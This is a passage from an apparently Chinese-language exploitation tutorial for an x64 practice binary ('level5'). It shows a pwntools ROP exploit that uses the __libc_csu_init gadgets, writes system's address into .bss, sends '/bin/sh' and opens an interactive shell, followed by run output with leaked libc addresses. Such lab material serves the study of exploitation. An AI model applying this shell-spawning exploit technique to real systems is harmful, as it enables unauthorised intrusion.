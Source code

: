``` python
payload2 = "\x00"*136
                #pop        junk      rbx      rbp         r12           r13         r14           r15          ret
payload2 += p64(0x400616) + p64(0) + p64(0) + p64(1) + p64(read_got) + p64(16) + p64(bss_addr) + p64(0) + p64(0x400600)
payload2 += "\x00"*56
payload2 += p64(main_addr)

p.recvuntil("Hello, World\n")

print "\n###############seding payload2################\n"
p.send(payload2)
sleep(1)

p.send(p64(system_addr))
p.send("/bin/sh\0")
sleep(1)

#rdi=edi=r15, rsi=r14, rdx=r13
#system(rdi=bss_addr+8="/bin/sh\0")
payload3 = "\x00"*136
                #pop        junk      rbx      rbp         r12           r13         r14           r15          ret
payload3 += p64(0x400616) + p64(0) + p64(0) + p64(1) +p64(bss_addr) + p64(0) + p64(0) + p64(bss_addr+8) + p64(0x400600)
payload3 += "\x00"*56
payload3 += p64(main_addr)

p.recvuntil("Hello, World\n")

print "\n##############seding payload3###############\n"
p.send(payload3)
sleep(1)

p.interactive()
```

要注意的是，当我们把程序的`io重定向`到`socket`上的时候，根据网络协议，因为发送的`数据包过大`，`read()有时会截断payload`，造成payload传输不完整造成攻击失败。这时候要多试几次即可成功。如果进行`远程攻击`的话，需要保证`ping值足够小`才行（局域网）。最终执行结果如下：

``` bash
$ python level5_exp.py 
[*] '/home/buffer/\xe6\xa1\x8c\xe9\x9d\xa2/practice/ROP_x64/0x03/level5'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/buffer/\xe6\xa1\x8c\xe9\x9d\xa2/practice/ROP_x64/0x03/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './level5': pid 13296
write_got= 0x601018
read_got= 0x601020
system_off_addr= 0xb1f20

################seding payload1################

write_addr= 0x7f14523e92b0
system_addr= 0x7f1452337390

```